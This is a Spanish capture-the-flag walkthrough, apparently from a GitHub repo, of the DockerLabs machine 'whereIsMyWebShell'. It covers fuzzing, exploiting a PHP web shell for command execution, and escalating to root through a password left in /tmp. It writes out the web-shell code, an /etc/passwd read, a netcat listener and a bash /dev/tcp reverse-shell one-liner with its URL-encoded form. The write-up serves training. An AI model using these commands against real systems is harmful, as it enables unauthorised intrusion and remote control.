 # 🕵️‍♂️ whereIsMyWebShell
![IMAGEN_MAQUINA_PORTADA](./imagenes/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🔍 Reconocimiento

Como siempre, comenzamos nuestro análisis con un escaneo de puertos usando `nmap`.

![Escaneo Nmap](./imagenes/nmap.png)

En este caso, únicamente vemos abierto el puerto **80**.

Antes de visitar directamente la web, hacemos un **fuzzing** con `gobuster` para descubrir posibles directorios ocultos.

![Gobuster](./imagenes/gobuster.png)

Aparte del típico `index.html`, aparecen dos archivos interesantes: `warning.html` y `shell.php`.

Entramos en `index.html` y, al revisar el código fuente, encontramos algo curioso:

![Código fuente](./imagenes/codigo.png)

De momento no podemos hacer mucho con esto, pero lo dejamos apuntado por si nos sirve más adelante.

Después accedemos a `warning.html`, que nos muestra lo siguiente:

![FFUF](./imagenes/ffuf.png)

Con esta información, podemos deducir que el archivo `shell.php` probablemente contenga algo como:

```php
<?php
system($_GET['cmd']);
?>
```
Si logramos encontrar el parámetro adecuado (cmd), podríamos llegar a ejecutar comandos en el servidor de forma remota.

## 💥 Explotación
Accedemos al ``shell.php``, pero en principio no muestra nada. Para encontrar el parámetro que usa, lanzamos un fuzzing con un diccionario.

![FUZZING](./imagenes/fuzzing.png)

¡Perfecto! Descubrimos que el parámetro es: ``parameter``.

Con esto en mano, probamos si es vulnerable a LFI (Local File Inclusion), intentando cargar un archivo del sistema: ``http://172.17.0.2/shell.php?parameter=/etc/passwd``

No obtenemos ningún resultado, así que vamos a probar si es vulnerable a RCE (Remote Command Execution).

![RCE](./imagenes/RCE.png)

¡Bingo! Es vulnerable. Vamos a intentar ejecutar una reverse shell para ganar acceso.

> Una reverse shell es una conexión que se lanza desde la máquina víctima hacia nuestra máquina atacante, permitiéndonos controlar el sistema de forma interactiva.

Nos ponemos en escucha con ``nc -lvnp 3344`` y luego ejecutamos la reverse shell desde el navegador: ``bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"``

> ⚠️ Aunque nuestra IP de atacante sea distinta, en entornos Docker la IP 172.17.0.1 suele pertenecer al host (es decir, al adaptador de red principal del contenedor). Por eso se utiliza esa IP para hacer la conexión de vuelta.

Sin embargo, vemos que no funciona directamente. Esto es porque el carácter & tiene un significado especial en URLs y debe ser encodeado como %26. Lo mismo pasa con > que se encodea como %3E.

La URL correcta sería algo como: ``http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/3344 0>%261"``

![REVERSHELL](./imagenes/revershell.png)

Y así obtenemos acceso como el usuario www-data. 

>www-data es el usuario por defecto que utilizan los servidores web como Apache o Nginx para ejecutar scripts. Tiene permisos limitados por seguridad.

## 🚀 Escalada de privilegios

En este punto, estabilizamos la shell (tratamiento de TTY) y nos dirigimos al directorio /tmp, ya que según el código fuente había un secreto allí.

Al inspeccionar vemos un archivo oculto. Usamos cat para visualizar su contenido y parece ser una contraseña... ¡de root!

La introducimos... ¡y efectivamente somos root! 

![ROOT](./imagenes/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Cómo descubrir endpoints ocultos mediante **fuzzing** (gobuster, ffuf).
- Cómo detectar y explotar una vulnerabilidad de tipo **RCE** en un script PHP mal protegido.
- Cómo realizar una **reverse shell** correctamente en un entorno Docker.
- Qué es el usuario **www-data** y cómo se accede mediante un shell interactivo.
- Cómo aprovechar pistas en el código fuente para encontrar credenciales sensibles.
- Y finalmente, cómo escalar privilegios hasta ser **root** gracias a un archivo olvidado en `/tmp`.
